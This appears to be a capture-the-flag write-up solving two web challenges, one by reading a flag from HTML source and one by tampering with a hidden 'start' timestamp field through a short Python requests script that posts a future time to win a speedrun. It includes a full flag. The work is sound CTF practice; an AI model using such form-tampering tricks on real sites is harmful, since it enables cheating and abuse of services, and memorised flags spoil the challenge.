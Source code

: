 Some text is spinning on the page and it seems to be the flag. Ok, let's dig into html source code.

```html
<body>
    <h1>catch me if you can!</h1>
    <marquee scrollamount="50" id="flag">actf{REDACTED}</marquee>
</body>
```

Yep, it was the flag. Quite straightforward.

🏁 _actf{y0u_caught_m3!_0101ff9abc2a724814dfd1c85c766afc7fbd88d2cdf747d8d9ddbf12d68ff874}_{: .spoiler}

## Celeste Speedrunning Association

> _I love Celeste Speedrunning so much!!! It's so funny to watch!!! Here's my favorite site!_<br>
> _https://mount-tunnel.web.actf.co/_

We have to beat other players by playing at Celeste speedrun game. The main page shows us the scoreboard.

```html
Welcome to Celeste speedrun records!!!<br>
Current record holders (beat them at <current URL>/play for a flag!):
<ol>
    <li>Old Lady: 0 seconds</li>
    <li>Madeline: 10 seconds</li>
    <li>Badeline: 10.1 seconds</li>
</ol>
```

Looking at `/play` source code, we need to send a `start` value to `/submit` in order to play.

```html
<form action="/submit" method="POST">
    <input type="text" style="display: none;" value="1682636300.7767162" name="start" />
    <input type="submit" value="Press when done!" />
</form>
```

The goal is to click the button as fast as we can... or change the `start` value. We can turn it into the current timestamp and add a few seconds. This way our speedrun time will be negative. Easy win.

```python
import time
import requests

url = 'https://mount-tunnel.web.actf.co/submit'

data = {
    'start': time.time() + 5
}

r = requests.post(url, data=data)
print(r.text)
```

